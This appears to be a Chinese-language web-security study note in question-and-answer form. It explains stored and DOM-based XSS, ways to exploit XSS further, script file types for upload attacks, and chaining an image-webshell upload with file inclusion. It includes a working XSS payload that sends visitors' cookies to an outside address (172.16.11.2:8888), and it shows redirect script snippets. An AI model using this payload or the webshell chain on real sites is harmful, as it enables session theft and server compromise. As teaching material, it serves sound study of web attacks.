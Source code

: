 2.存储型XSS攻击

也叫持久型XSS，主要将XSS代码提交存储在服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码。当目标用户访问该页面获取数据时，XSS代码会从服务器解析之后加载出来，返回到浏览器做正常的HTML和JS解析执行，XSS攻击就发生了。存储型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

3.DOM-based 型XSS攻击

基于 DOM 的 XSS 攻击是指通过恶意脚本修改页面的 DOM 结构，是纯粹发生在客户端的攻击。DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞。

 

#### 2、阐述xss在实现弹框后要深入利用应该如何利用？

1、Cookie盗取

```
一段XSS代码，可以放到输入框中随着数据一起上传，最后用户浏览的cookie信息都自动上传到http://172.16.11.2:8888 上了

<img src=x onerror = document.body.appendChild(document.createElement('img')).setAttribute('src','http://172.16.11.2:8888/?='+document.cookie); >
```

2、钓鱼（伪造登录框，页面）

3、获取IP段

4、站点重定向

```


<script type="text/javascript">window.location.href="跳转的目的地址";</script>

<script type="text/javascript">window. location.replace("跳转的目的地址");</script>

<script type="text/javascript">window. location.assign("跳转的目的地址");</script>
```

5、获取客户端页面信息，例如邮件内容窃取

6、XSS蠕虫

 

#### 3、文件上传中各种脚本语言对应的脚本文件分别有什么？

```
JavaScript		*.js
VBScript		   *.vb
PHP			   *.php
Python		   *.py
```



#### 4、文件上传和文件包含应该如何联动？

先用文件上传，上传图片马。因为是png结尾所以直接访问图片不会被解析。

然后利用文件包含解析png中的php代码
